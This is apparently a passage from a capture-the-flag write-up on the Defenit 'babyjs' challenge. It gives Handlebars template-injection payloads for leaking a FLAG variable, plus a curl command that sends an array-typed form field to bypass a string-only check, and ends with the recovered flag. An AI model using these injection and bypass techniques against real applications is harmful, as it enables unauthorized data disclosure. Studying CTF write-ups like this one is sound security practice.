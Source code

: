 ```js
TypeError: /app/views/temp/4b18c60be2c53213cc973ca3a4952acb/2d611e5d43e82f98.html: Cannot convert object to primitive value
    at Object.escapeExpression (/app/node_modules/handlebars/dist/cjs/handlebars/utils.js:91:17)
    at eval (eval at createFunctionContext (/app/node_modules/handlebars/dist/cjs/handlebars/compiler/javascript-compiler.js:262:23), <anonymous>:2:17)
    at prog (/app/node_modules/handlebars/dist/cjs/handlebars/runtime.js:268:12)
    at execIteration (/app/node_modules/handlebars/dist/cjs/handlebars/helpers/each.js:51:19)
    at /app/node_modules/handlebars/dist/cjs/handlebars/helpers/each.js:83:15
    at Array.forEach (<anonymous>)
    at /app/node_modules/handlebars/dist/cjs/handlebars/helpers/each.js:78:32
    at Object.<anonymous> (/app/node_modules/handlebars/dist/cjs/handlebars/helpers/each.js:91:11)
    at Object.wrapper (/app/node_modules/handlebars/dist/cjs/handlebars/internal/wrapHelper.js:15:19)
    at Object.eval [as main] (eval at createFunctionContext (/app/node_modules/handlebars/dist/cjs/handlebars/compiler/javascript-compiler.js:262:23), <anonymous>:8:52)
```

so I go to find the [documents](https://handlebarsjs.com/guide/expressions.html#literal-segments) . It seems that the handlebars used to have template injection vuln.

And found that many ways to solve the problem ( Helpers , Literal ....)

```html
{{#each this}}
  {{@key}}:{{#if this.length}} {{.}} {{/if}}
{{/each}}

{{#each this}}
  {{#if this.length}} {{this}} {{/if}}
{{/each}}

{{#with this as |k|}}
  {{#with "FLag"}}
    {{#with (replace "ag" "AG") as |payload|}}
      {{lookup k payload}}
    {{/with}}
  {{/with}}
{{/with}

{{#each this}}{{this.[20]}}{{/each}}  // do it many times ..... LOL
```

Or you can use Array to make the check expression return false because it only operated on strings , bypass like many functions in PHP . 😉

```bash
curl "http://babyjs.ctf.defenit.kr/" -H "Content-Type: application/x-www-form-urlencoded" --data "content[]={{FLAG}}" --compressed --insecure -L
```

Defenit{w3bd4v_0v3r_h7tp_n71m_0v3r_Sm8}



### References
